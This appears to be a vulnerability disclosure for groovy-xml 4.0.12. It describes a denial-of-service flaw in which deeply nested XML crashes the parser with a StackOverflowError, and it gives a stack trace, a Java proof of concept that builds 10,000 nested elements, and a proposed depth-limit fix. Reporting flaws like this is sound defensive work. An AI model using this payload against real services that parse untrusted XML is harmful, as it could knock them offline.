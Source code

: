 ## StackOverflowError caused by groovy-xml parsing of untrusted XML String
### Description
---
Using groovy-xml to parse untrusted XML String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
          at java.util.AbstractMap.toString(AbstractMap.java:547)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at groovy.util.Node.toString(Node.java:805)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at java.util.AbstractCollection.toString(AbstractCollection.java:462)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          ...
          at groovy.util.Node.toString(Node.java:805)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at java.util.AbstractCollection.toString(AbstractCollection.java:462)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at groovy.util.Node.toString(Node.java:805)
          
### Version
        <dependency>
            <groupId>org.apache.groovy</groupId>
            <artifactId>groovy-xml</artifactId>
            <version>4.0.12</version>
        </dependency>

### PoC
---
        import groovy.util.Node;
        import groovy.xml.XmlParser;
        import org.xml.sax.SAXException;

        import javax.xml.parsers.ParserConfigurationException;
        import java.io.IOException;

        public class ApacheGroovyXmlTest {

            public static String createXmlStr() {
                StringBuilder str = new StringBuilder("Test xml");
                for (int i = 0; i <= 9999; i++) {
                    str.insert(0, "<a>");
                    str.append("</a>");
                }
                return str.toString();
            }

            public static void main(String[] args) throws ParserConfigurationException, SAXException, IOException {
                XmlParser xmlParser = new XmlParser();
                Node node = xmlParser.parseText(createXmlStr());
                System.out.println(node.get("a"));
            }
        }
        
### Rectification Solution
---
Refer to the solution of JSON-java: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([XML.toJSONObject may lead to StackOverflowError which may lead to dos when parses untrusted xml: CVE-2022-45688 #708](https://github.com/stleary/JSON-java/issues/708))
